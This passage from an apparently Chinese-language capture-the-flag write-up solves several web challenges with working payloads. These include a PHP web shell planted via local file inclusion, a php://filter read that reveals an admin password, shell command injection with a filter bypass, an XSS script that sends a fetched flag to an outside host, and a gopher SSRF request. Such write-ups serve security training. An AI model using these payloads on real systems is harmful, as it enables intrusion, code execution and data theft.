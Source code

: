 讀取 `/tmp/sess_<當前session>`，可發現儲存的是筆記的內容

新增筆記，內容為 `<?php system($_GET['meow']); ?>`

讀取 `/tmp/sess_<當前session>` 並帶上參數 `meow=ls -al /`，即可進行 RCE

FLAG{include(LFI_to_RCE)}

### 解法 2
讀取 `/proc/1/mountinfo` 檔案，發現 flag mount point
讀取 `/flag_aff6136bbef82137`
FLAG{include(LFI_to_RCE)}

## My First Meow Website
使用 php 偽協議
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`

進行 base64 decode 後，發現帳號密碼資訊
`admin / kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`
登入拿 flag

FLAG{ezzzz_lfi}

## DNS Lookup Tool
payload: `';cat /flag_44ebd3936a907d59; #`

FLAG{B4by_c0mmand_1njection!}

## DNS Lookup Tool 🔍 | WAF
先 try wildcard: `'"`ls /fla*`" #`

拿到 flag 名稱，取得檔案內容: `'"`cat /fla''g_f4b9830a65d9e956`" #`

FLAG{Y0U_$(Byp4ssed)_th3_`waf`}

## XSS Me
欲塞入 payload:
```javascript!
</script><script> fetch('http://h4ck3r.quest:8800/getflag').then(r=>r.text()).then(x=>new Image().src='http://lab.feifei.tw/hijacking.php?data='%2bx) </script>
```

需要將一些字元用 url encoding 處理
```!
http://h4ck3r.quest:8800/?type=error&message=%3C/script%3E%3Cscript%3E%20fetch(%27http://h4ck3r.quest:8800/getflag%27).then(r=%3Er.text()).then(x=%3Enew%20Image().src=%27http://lab.feifei.tw/hijacking.php?data=%27%2bx)%20%3C/script%3E
```

FLAG{b4by_xss_h4ck3r}

## Web Preview Card
使用 gopher 協定
```!
gopher://localhost:80/_POST%20/flag.php%20HTTP/1.0%0D%0AHost:%20localhost:80%0D%0AContent-Length:%2014%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Agivemeflag=yes
```
